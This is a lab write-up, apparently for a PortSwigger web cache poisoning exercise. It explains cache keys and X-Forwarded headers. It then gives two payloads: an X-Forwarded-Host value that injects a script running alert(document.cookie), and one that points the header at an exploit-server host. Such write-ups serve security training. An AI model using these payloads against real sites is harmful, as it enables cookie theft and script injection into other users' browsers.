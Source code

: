 # Web cache poisoning with an unkeyed header
# Objective
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
> Caches identify equivalent requests by comparing a predefined subset of the request's components, known collectively as the "cache key". Typically, this would contain the **request line** and **Host header**. Components of the request that are not included in the cache key are said to be "unkeyed".\
> \
> Source: [PortSwigger - Cache keys information](https://portswigger.net/web-security/web-cache-poisoning)

The header value is unkeyed and is reflected to user.
|![](Images/image.png)|
|:--:| 
| *Normal request* |
|![](Images/image-1.png)|
| *Request with extra header* |

### Cache headers explaination
```
Cache-Control: max-age=30   --> Response is cached for 30s
Age: 2                      --> Cached response is 2s old
X-Cache: hit                --> Response comes from cache
X-Cache: miss               --> Response does not come from cache
```

### X-Forwarded-* headers explaination
```
X-Forwarded-For     --> Tracks the original client IP address and the IP addresses of any intermediate proxies.
X-Forwarded-Host    --> Maintains the original host requested by the client.
X-Forwarded-Port    --> Specifies the port number used by the client to connect to the proxy.
X-Forwarded-Proto   --> Indicates the protocol (HTTP or HTTPS) used by the client.
X-Forwarded-Scheme  --> Indicates the protocol (HTTP or HTTPS) used by the client.

Alternative headers:
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

Examle:
```
GET /path/to/resource HTTP/1.1
Host: proxy.example-proxy.com
X-Forwarded-Host: example.com
X-Forwarded-For: 69.69.69.69
X-Forwarded-Proto: https
X-Forwarded-Scheme: https
```

The `X-Forwarded-Proto` header is essentially the same as `X-Forwarded-Scheme` and serves the same purpose. However, `X-Forwarded-Proto` is more commonly used and widely recognized.

## Exploitation
### Poisoning without using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: testtest"></script><script>alert(document.cookie)//
```

|![](Images/image-2.png)|
|:--:| 
| *Web cache poisoning* |

### Poisoning using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: exploit-0a65007d038337e3830468450117007e.exploit-server.net
```

|![](Images/image-4.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-3.png)|
| *Web cache poisoning* |
|![](Images/image-5.png)|
| *Result* |

